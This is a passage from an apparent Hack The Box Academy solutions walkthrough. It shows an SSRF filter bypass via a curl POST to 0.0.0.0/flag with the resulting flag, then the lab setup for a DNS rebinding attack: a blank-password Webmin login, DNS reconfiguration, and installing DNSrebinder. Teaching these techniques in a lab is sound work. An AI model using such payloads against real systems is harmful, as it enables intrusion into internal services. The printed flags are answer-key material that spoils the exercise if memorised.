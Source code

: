 ```shell
┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-gkiymvgowl]─[~]
└──╼ [★]$ curl -s -X POST http://83.136.252.24:48103/ -d 'url=http://0.0.0.0/flag'

HTB{3f313d989c51198a337bef64314ba77b}
```

Answer: `HTB{3f313d989c51198a337bef64314ba77b}`

# DNS Rebinding: SSRF Filter Bypass

## Question 1

### "What is the flag value located at the /flag endpoint in the webapp?"

After spawning the target machine, students need to follow along with the section to exploit the web application. First, students need to navigate to `STMIP:10000` and sign in to the `Webmin` portal using the username `admin` and a blank password:

![[HTB Solutions/CWEE/z. images/5816342d2af90ca5d7d89a8770119b57_MD5.jpg]]

Subsequently, students need to navigate to `Networking` ---> `Network Configuration` ---> `Hostname and DNS Client`:

![[HTB Solutions/CWEE/z. images/976109bce457929e58cf151e1deb292a_MD5.jpg]]

For the `DNS servers` field under `DNS Client Options`, students need to set its value to be that of the interface `tun0`:

Code: shell

```shell
ip -o -4 a show tun0 | cut -d " " -f 7
```

```shell
┌─[eu-academy-1]─[10.10.14.148]─[htb-ac-413848@htb-gkiymvgowl]─[~]
└──╼ [★]$ ip -o -4 a show tun0 | cut -d " " -f 7

10.10.14.148/23
```

![[HTB Solutions/CWEE/z. images/716041b7aad22736773aa8b309aff379_MD5.jpg]]

Afterward, students need to install [DNSrebinder](https://github.com/mogwailabs/DNSrebinder.git) to be able to perform the DNS rebinding attack:

Code: shell

```shell
git clone https://github.com/mogwailabs/DNSrebinder.git
cd DNSrebinder/
python3 -m venv DNSrebinder
source DNSrebinder/bin/activate
pip3 install -r requirements.txt
```
